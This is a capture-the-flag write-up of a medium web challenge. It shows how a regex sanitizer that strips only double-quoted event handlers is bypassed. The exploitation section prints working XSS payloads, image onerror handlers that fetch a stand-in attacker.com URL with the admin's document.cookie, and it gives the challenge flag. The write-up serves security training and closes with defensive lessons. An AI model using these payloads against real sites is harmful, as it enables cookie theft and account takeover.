 ```yaml
---
title: "Web Challenge XSS"
date: "2025-03-15"
ctf: "ExampleCTF 2025"
category: "web"
difficulty: "Medium"
points: 150
tags: ["web", "xss", "javascript"]
author: "Tham Le"
solved: true
---
```


# Web Challenge XSS Writeup

## Challenge Description

The website allows users to submit comments that are displayed to administrators. Your goal is to steal the admin's cookie.

## Analysis

The website filters many common XSS payloads but has a vulnerability in how it handles image tags.

![](/assets/images/writeups/ExampleCTF2025/web/web-challenge/xss-website.png)

## Exploitation

By analyzing the source code, I found that the site uses a custom sanitization function:

```javascript
function sanitize(input) {
  // Remove script tags
  input = input.replace(/<script.*?>.*?<\/script>/gi, '');
  // Allow some tags but remove event handlers
  input = input.replace(/on\w+=".*?"/gi, '');
  return input;
}
```

However, this function doesn't handle all cases. I created the following payload:

```html
<img src="x" onerror="fetch('https://attacker.com/'+document.cookie)">
```

The sanitizer only matches double quotes for attributes but not single quotes, so I modified it to:

```html
<img src="x" onerror='fetch("https://attacker.com/"+document.cookie)'>
```

## Solution

After submitting the payload, I received the admin's cookie at my server:

![](/assets/images/writeups/ExampleCTF2025/web/web-challenge/cookie-capture.png)

Using this cookie, I was able to authenticate as the admin and retrieve the flag: `flag{xss_byp4ss_m4st3r}`

## Lessons Learned

1. Always validate and sanitize user input thoroughly
2. Use proper context-aware sanitization libraries
3. Consider implementing a Content Security Policy
4. Avoid storing sensitive information in cookies when possible

